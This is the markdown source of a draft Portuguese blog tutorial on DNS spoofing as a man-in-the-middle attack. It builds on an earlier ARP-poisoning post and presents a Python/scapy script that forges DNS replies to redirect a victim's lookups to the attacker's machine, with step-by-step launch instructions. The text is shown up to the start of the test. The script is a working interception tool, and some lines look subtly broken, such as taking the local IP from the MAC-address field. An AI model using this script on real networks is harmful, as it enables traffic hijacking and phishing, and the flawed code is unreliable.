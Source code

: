```yaml
---
title: 'DNS Spoofing: Como interceptar requisições DNS - Ataque MITM'
date: '2024-08-04'
summary: 'Como continuação do ultimo artigo, iremos aprender como funciona o ataque DNS Spoofing, e como redirecionar requisições DNS ao nosso servidor.'
tags: ['hacking', 'mitm']
draft: true
---
```


Como continuação do ultimo artigo, iremos aprender como funciona o ataque DNS Spoofing, e como redirecionar requisições DNS ao nosso servidor.

<TOCInline toc={props.toc} asDisclosure />

## O que é o DNS

O DNS (Domain Name System) é o sistema responsável por traduzir os endereços de domínio em endereços IP, permitindo que os usuários acessem sites através de nomes ao invés de números.

Quando um usuário quer acessar facebook por exemplo, ele envia uma requisição DNS a um determinado servidor DNS, e esse servidor retorna o endereço IP dono do domínio "facebook.com".

## Como funciona o ataque

![Tete](/static/images/dns-spoof/dns-spoofing.webp)

O DNS Spoofing funciona criando um servidor DNS que recebe as requisições do alvo e redireciona determinados sites (ou todos) a um outro servidor de sua escolha.

Para que o atacante receba as requisições do alvo, ele depende de um outro ataque MITM chamado ARP Poisoning, que foi explicado no último artigo.

Executando o ARP Poisoning e se passando pelo roteador, todas as requisições DNS do alvo serão redirecionadas à máquina do atacante.

## Criando o script

Agora que já entendemos como funciona o ataque iremos criar um script em python para executar o DNS Spoofing.

Para realizar o ataque também será necessário usar o script de ARP Poisoning criado no [último artigo](https://reddyyz.github.io/blog/arp-poisoning-ataque-mitm).

Bibliotecas que iremos usar:
- scapy — Biblioteca responsável pela criação dos pacotes
- netifaces — Biblioteca que usaremos para identificar o IP e MAC local.

---

Importando as bibliotecas necessárias:

```python:dnsspoof.py
from scapy.all import *
import netifaces
```

Criando a função que irá redirecionar os sites à um servidor falso:

```python:dnsspoof.py
def handle_packet(pkt):
    if pkt.haslayer(IP) and pkt.haslayer(DNS):
        if pkt[IP].src != local_ip and pkt[Ether].dst == local_mac and pkt[DNS].opcode == 0 and pkt[DNS].ancount == 0:

            if pkt[DNSQR].qname.decode() == "test.root.":
                fake_pkt = IP(dst=pkt[IP].src,
                              src=pkt[IP].dst)/\
                              UDP(dport=pkt[UDP].sport, sport=53)/\
                              DNS(id=pkt[DNS].id,
                                  qd=pkt[DNS].qd,
                                  aa=1,
                                  qr=1,
                                  ancount=1,
                                  an=DNSRR(rrname=pkt[DNSQR].qname, rdata=redirect_ip))/\
                              DNSRR(rrname=pkt[DNSQR].qname,
                                    rdata=redirect_ip)

                send(fake_pkt)
                print(f"Requisicao DNS de {pkt[IP].src} redirecionada para {redirect_ip}")
```

Checando se a requisição não veio da nossa própria máquina, se o MAC de destino é o da nossa máquina e se é uma requisição DNS

```python
if pkt[IP].src != local_ip and pkt[Ether].dst == local_mac and pkt[DNS].opcode == 0 and pkt[DNS].ancount == 0:
```

Verificando se a requisição é ao site que queremos redirecionar.
Nesta parte lembre-se de adicionar o ‘.’ ao final da URL.
```python
if pkt[DNSQR].qname.decode() == "test.root.":
```

Criando a resposta do DNS.
O argumento `rrname` é o domínio da requisição e `rdata` é o IP no qual será redirecionado.

```python
an=DNSRR(rrname=pkt[DNSQR].qname, rdata=redirect_ip))/\ # RESPOSTA DNS
# RRNAME=Site da requisicao
# RDATA = IP PARA REDIRECIONAR
```

Na função principal definimos todas as variáveis que precisamos e iniciamos o ataque com a função `sniff`:

```python:dnsspoof.py
if __name__ == "__main__":
    info_interface = netifaces.ifaddresses("eth0") # Obtem informacoes sobre a placa de rede

    local_ip = info_interface[netifaces.AF_LINK][0]['addr']
    local_mac = info_interface[netifaces.AF_LINK][0]['addr']
    redirect_ip = local_ip

    print("Iniciando ataque")
    sniff(prn=handle_packet)
```

[Código completo](https://gist.github.com/ReddyyZ/cd28f86a5c7913854f080a82c2a27090#file-dnsspoof-py)

## Iniciando o ataque

Com todos os scripts prontos, vamos iniciar o ataque.<br/>Primeiro executamos o script do ARP Poisoning:

![ARP Poisoning](/static/images/dns-spoof/arp-poisoning.webp)

E em seguida executamos o script do DNS Spoofing:

![DNS Spoofing](/static/images/dns-spoof/iniciando-dns-spoof.webp)

Com isso, todas as requisições DNS do alvo serão redirecionadas ao nosso servidor falso.

Agora vamos tentar acessar o site que queremos redirecionar `test.root`: